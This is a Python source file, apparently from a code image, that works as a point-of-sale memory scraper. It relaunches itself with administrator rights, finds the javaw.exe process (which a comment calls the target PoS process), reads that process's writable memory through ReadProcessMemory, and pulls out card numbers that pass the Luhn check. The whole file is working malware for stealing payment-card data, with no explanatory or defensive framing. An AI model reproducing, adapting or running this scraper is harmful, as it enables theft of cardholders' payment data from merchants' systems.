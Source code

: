 import psutil
import ctypes
import re
import threading
from queue import Queue
import sys

# Constants for process access
PROCESS_VM_READ = 0x0010
PROCESS_QUERY_INFORMATION = 0x0400

# Queue for memory regions to scan (for threading)
memory_queue = Queue()

# Luhn's algorithm to validate credit card numbers
def validate_luhn(card_number):
    total = 0
    reverse_digits = card_number[::-1]
    for i, digit in enumerate(reverse_digits):
        n = int(digit)
        if i % 2 == 1:
            n *= 2
            if n > 9:
                n -= 9
        total += n
    return total % 10 == 0

# Credit card pattern using regex (adjust for specific PoS system)
cc_regex = re.compile(r'\b(?:\d[ -]*?){13,19}\b')

# Scan a buffer for potential credit card data
def scan_memory_chunk(memory_chunk):
    matches = cc_regex.findall(memory_chunk)
    valid_cards = []
    for match in matches:
        sanitized = re.sub(r'[^\d]', '', match)  # Remove non-numeric characters
        if validate_luhn(sanitized):  # Only return valid Luhn credit cards
            valid_cards.append(sanitized)
    return valid_cards

# Worker thread that processes memory chunks
def memory_scan_worker(process_handle):
    while not memory_queue.empty():
        base_addr, size = memory_queue.get()
        try:
            buffer = ctypes.create_string_buffer(size)
            bytesRead = ctypes.c_size_t(0)
            if ctypes.windll.kernel32.ReadProcessMemory(process_handle, ctypes.c_void_p(base_addr), buffer, size, ctypes.byref(bytesRead)):
                valid_cards = scan_memory_chunk(buffer.raw.decode('latin-1'))
                if valid_cards:
                    print(f"Found valid card(s) at address {base_addr}: {valid_cards}")
        except Exception as e:
            # Handle exceptions (e.g., access violations, decoding errors)
            print(f"Error reading memory at {base_addr}: {e}")
        finally:
            memory_queue.task_done()

# Get memory regions to scan (only committed, readable regions)
def get_memory_regions(pid):
    process = psutil.Process(pid)
    with process.oneshot():
        handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)
        if not handle:
            raise Exception(f"Failed to open process {pid}")

        memory_regions = []
        address = 0
        mbi = ctypes.wintypes.MEMORY_BASIC_INFORMATION()

        while ctypes.windll.kernel32.VirtualQueryEx(handle, ctypes.c_void_p(address), ctypes.byref(mbi), ctypes.sizeof(mbi)):
            if mbi.State == 0x1000 and mbi.Protect == 0x04:  # MEM_COMMIT and PAGE_READWRITE
                memory_regions.append((mbi.BaseAddress, mbi.RegionSize))
            address += mbi.RegionSize

        ctypes.windll.kernel32.CloseHandle(handle)
        return memory_regions

# Main function to scan memory of target process
def scan_process_memory(pid, num_threads=4):
    # Get memory regions
    memory_regions = get_memory_regions(pid)
    if not memory_regions:
        print(f"No valid memory regions found for PID {pid}")
        return

    # Add regions to queue
    for region in memory_regions:
        memory_queue.put(region)

    # Open process for reading
    process_handle = ctypes.windll.kernel32.OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, False, pid)

    # Create and start worker threads
    threads = []
    for _ in range(num_threads):
        t = threading.Thread(target=memory_scan_worker, args=(process_handle,))
        t.start()
        threads.append(t)

    # Wait for the queue to be processed
    memory_queue.join()

    # Clean up threads and process handle
    for t in threads:
        t.join()
    ctypes.windll.kernel32.CloseHandle(process_handle)

def is_admin():
    """
    Check if the script is running with administrative privileges.
    """
    try:
        return ctypes.windll.shell32.IsUserAnAdmin()
    except:
        return False

if __name__ == "__main__":
    # Ensure the script is running as admin
    if not is_admin():
        print("Attempting to restart with admin privileges...")
        ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, " ".join(sys.argv), None, 1)
        sys.exit(0)

    # Get PID of javaw.exe (adjust based on target PoS process)
    for proc in psutil.process_iter(['pid', 'name']):
        if proc.info['name'] == 'javaw.exe':
            target_pid = proc.info['pid']
            print(f"Found javaw.exe with PID {target_pid}")
            scan_process_memory(target_pid)
            break
    else:
        print("javaw.exe not found!")
